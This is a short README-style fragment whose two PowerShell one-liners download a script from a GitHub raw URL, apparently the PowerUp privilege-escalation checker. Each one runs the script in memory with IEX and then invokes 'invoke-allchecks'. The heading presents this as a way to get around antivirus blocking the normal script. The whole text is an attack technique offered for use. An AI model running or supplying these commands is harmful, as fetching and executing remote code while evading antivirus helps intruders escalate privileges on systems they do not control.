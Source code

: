 ## Sometimes AV will block the normal script, just try this command
### Run command
```
iex(new-object net.webclient).downloadstring("https://raw.githubusercontent.com/f3ci/powerup/master/1.ps1"); invoke-allchecks
```
OR
```
$a = [System.Net.WebRequest]::Create('https://raw.githubusercontent.com/f3ci/powerup/master/1.ps1');$b=$a.GetResponse();$c=$b.GetResponseStream();$d=[System.IO.StreamReader]::new($c);$content=$d.ReadToEnd();IEX($content);invoke-allchecks
```
